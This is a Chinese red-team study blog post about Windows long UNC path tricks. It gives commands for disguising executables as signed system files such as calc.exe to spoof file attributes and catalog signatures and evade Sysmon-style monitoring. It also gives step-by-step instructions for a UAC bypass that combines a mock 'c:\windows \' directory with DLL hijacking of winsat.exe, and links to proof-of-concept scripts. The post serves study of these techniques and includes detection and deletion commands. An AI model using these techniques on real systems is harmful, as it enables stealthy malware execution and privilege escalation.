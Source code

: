 ```yaml
---
layout:     post
title:  【学习】long UNC伪造利用方法
subtitle:   red&blue
date:       2019-03-17
author:     DC
header-img: img/post-bg-universe.jpg
catalog: true
tags:
    - red&blue
---
```




### 【学习】long UNC伪造利用方法



介绍：

Microsoft Windows **UNC**是**Universal Naming Convention**或**Uniform Naming Convention的**缩写，它指定了描述网络资源位置的通用语法，例如共享文件，目录或打印机。Windows系统的UNC语法具有以下通用形式：

```cmd
\\ComputerName\SharedFolder\Resource
```



Microsoft Windows使用以下类型的路径：

- 本地文件系统（LFS），例如 `C:\File`
- 统一命名约定（UNC），例如`\\Server\Volume\File`或/ `<internet resource name>[\Directory name]`（至少在Windows 7及更高版本中）
-  long UNC或UNCW ，例如`\\?\C:\File`或`\\?\UNC\Server\Volume\File`

在Windows XP之前的Windows版本中，只有接受“Long UNC”的API才能接受超过260个字符

long UNC 支持最大长度为32767





#### 文件属性伪造：

**基础用法：欺骗系统，识别为某一个文件，复制文件属性**

```
则会将文件名称和部分属性进行伪装复制
type putty.exe  > "\\?\C:\test\test.exe"

若在文件名后加空格则会对文件名识别准确
type putty.exe > "\\?\C:\test\mimikatz.exe "

```

**伪造catalog签名**

```cmd
查看catalog 签名，使用singcheck工具：https://download.sysinternals.com/files/Sigcheck.zip

singcheck -i calc.exe:
主要的签名值：
                Cert Issuer:    Microsoft Root Certificate Authority 2010
                Serial Number:  61 07 76 56 00 00 00 00 00 08
                Thumbprint:     580A6F4CC4E4B669B9EBDC1B2B3E087B80D0678D   《---
                Algorithm:      sha256RSA
                Valid from:     2:41 2011/10/20
                Valid to:       2:51 2026/10/20

通过如下方法伪造基本属性。
type putty.exe > "\\?\C:\Windows\System32\calc.exe "
可成功复制部分文件属性。仍然容易识别，无法伪造 catalog

通过短文件名方法构造，伪造catalog
dir /x calc*.exe  查看短文件名。
使用 CALC~1.EXE替换 calc.exe空格
可成功伪造catalog 值
type putty.exe > "\\?\C:\Windows\System32\CALC~1.EXE"
```

**不同伪装调用方法**

```cmd
命令行调用：

	"\\?\C:\Windows\System32\calc.exe "

	C:\Windows\System32\CALC~1.EXE

wmic调用方法：
	
	wmic process call create C:\Windows\System32\CALC~1.exe

VBS调用方法：

	Set objShell = CreateObject("Wscript.Shell")
	objShell.Run "c:\windows\system32\calc~1.exe"
	
JS调动方法：

	var wsh=new ActiveXObject("wscript.shell");  
	wsh.run("c:\\windows\\system32\\calc~1.exe");

属性可欺骗sysmon类监控

```



**校验方法**

```
MD5识别:
    certutil.exe -hashfile C:\Windows\System32\calc.exe MD5

    certutil.exe -hashfile C:\Windows\System32\calc~1.exe MD5

    certutil.exe -hashfile "\\?\C:\Windows\System32\calc.exe " MD5

同名文件夹生成，通过短文件名 顺序识别:

    type putty.exe > "\\?\C:\Windows\System32\calc.exe "       <---calc~1.exe
    type putty.exe > "\\?\C:\Windows\System32\calc.exe  "      <---calc~2.exe
    type putty.exe > "\\?\C:\Windows\System32\calc.exe   "     <---calc~3.exe

删除方法（64位均存在重定位问题）：

del "\\?\C:\Windows\System32\calc.exe "

del C:\Windows\System32\CALC~1.exe


```



#### 文件夹属性伪造：

**基础用法：欺骗系统，识别为某一个文件夹，复制文件夹属性**

```
md "\\?\c:\windows "
```

**尝试使用伪造文件夹属性，绕过UAC**

```cmd
前提条件：

	有一个默认绕过UAC的文件：程序配置以管理员权限运行，包含签名，从信任目录（c:\windows\system32 等）运行。

	普通用户具有磁盘根目录常见文件夹权限
	
	EXE程序在启动中加载dll,默认搜索同级目录，便于进行dll劫持



实现思路：

1、找到一个默认能够绕过UAC的文件，例如c:\windows\system32\winsat.exe

2、使用Long UNC创建一个特殊的文件夹"c:\windows \"，并将winsat.exe复制到该目录。

3、执行winsat.exe，记录启动过程，发现启动时需要加载同级目录下的WINMM.dll

4、编写payload.dll，指定导出函数同c:\windows\system32\winmm.dll相同，并命名为"c:\windows \system32\WINMM.dll"

5、执行"c:\windows \system32\winsat.exe"，将自动绕过UAC，加载"c:\windows \system32\WINMM.dll"，执行payload



实现操作：

1.对具有UAC绕过权限的文件选择，采用 https://github.com/g3rzi/Manifesto ，进行搜索autoElevate属性为true的文件

2.创建文件夹目录
  命令行创建：  md "\\?\c:\windows "
  代码实现：    CreateDirectoryW(L"\\\\?\\C:\\Windows \\", 0);
  
3.可劫持dll查找，通过Process Monitor等工具，筛选result:NAME NOT FOUND的dll，即启动中加载同级目录的dll

4.生成劫持dll,采用https://github.com/michaellandi/exportstoc 生成用于劫持的dll文件

5.对c:\windows \system32\winsat.exe 的程序，进行绝对路径启动的时候。会进行劫持


思考：

通过构造绕过UAC的方法借鉴白利用的攻防方向，通过其他边界突破手段，配合进行权限绕过利用。
```









学习参考链接：

[《Catalog签名伪造——Long UNC文件名欺骗》](https://3gstudent.github.io/3gstudent.github.io/Catalog%E7%AD%BE%E5%90%8D%E4%BC%AA%E9%80%A0-Long-UNC%E6%96%87%E4%BB%B6%E5%90%8D%E6%AC%BA%E9%AA%97/)

[UAC Bypass by Mocking Trusted Directories](https://3gstudent.github.io/3gstudent.github.io/Catalog%E7%AD%BE%E5%90%8D%E4%BC%AA%E9%80%A0-Long-UNC%E6%96%87%E4%BB%B6%E5%90%8D%E6%AC%BA%E9%AA%97/)

[《Study Notes Weekly No.1(Monitor WMI & ExportsToC++ & Use DiskCleanup bypass UAC)》](https://3gstudent.github.io/3gstudent.github.io/Study-Notes-Weekly-No.1(Monitor-WMI_ExportsToC++_Use-DiskCleanup-bypass-UAC)/)

脚本地址： https://github.com/tenable/poc/tree/master/Microsoft/Windows/UACBypass